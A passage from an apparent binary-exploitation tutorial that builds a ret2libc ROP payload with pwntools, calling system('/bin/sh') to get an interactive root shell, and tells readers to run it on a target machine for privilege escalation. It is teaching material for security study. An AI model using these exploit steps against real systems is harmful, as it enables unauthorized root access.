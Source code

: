 ### Exploiting the binary
The hard part is done. The only thing we have to do now is to create the real exploit payload. Our goal is to call `system` to get a shell using the processes root privileges.

The manpage for `system` tells us that it takes a pointer to the command to be executed as an argument (`system(const char *command);`).

1. Padding: We first add padding just like before.
```python
payload = padding
```
2. Afterwards, we set the arguments for `system` using the same `pop rdi` gadget as above:
```python
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0]) # We need an 'pop rdi' gadget in order to set an argument for system()
```
3. Now we need to put a pointer to the command on the stack. Luckily, the libc contains the string `/bin/sh`. Therefore, we can just leverage this. Note that we use the python `next` function here, since `libc.search` returns an iterator and we only need the first result. 
```python
payload += p64(next(libc.search(b'/bin/sh'))) # search() looks for the string 'bin/sh' in the virtual address space of the libc --> Thereby we do not have to put the string into memory ourselves
```
4. Now we do some stack alignment. It is not important why we need that here.
```python
payload += p64(rop.find_gadget(['ret'])[0]) # We just need this for stack alignment. It is not important why.
```
5. Finally, the arguments for `system` are set and we add the runtime address of it to the stack using our rebased libc.
```python
payload += p64(libc.symbols.system) # Get the address of the system() function using our newly set base address for the libc
```

This finalizes our payload. Now, we excute it.

```python
p.recvline() # Receive some blabla e.g. "Enter your name"
p.sendline(payload) # Send the new payload
p.recvline() # Receive some blabla e.g. "Your name is..."" + some padding from above

p.interactive() # Switch to interactive mode to enjoy the shell
```

Now, you are using your interactive shell with root privileges. Run the exploit on the target machine to elevate your privileges there.

Find the full exploit code [here](exploit.py).

## Tooling

During the process of creating the exploit, we used several tools to help us. Here is a list of the most important ones:
- Ghidra: To disassemble and decompile the binary
- pwntools: To create the exploit using python
- GDB: To understand and comprehend the binary and find the offset
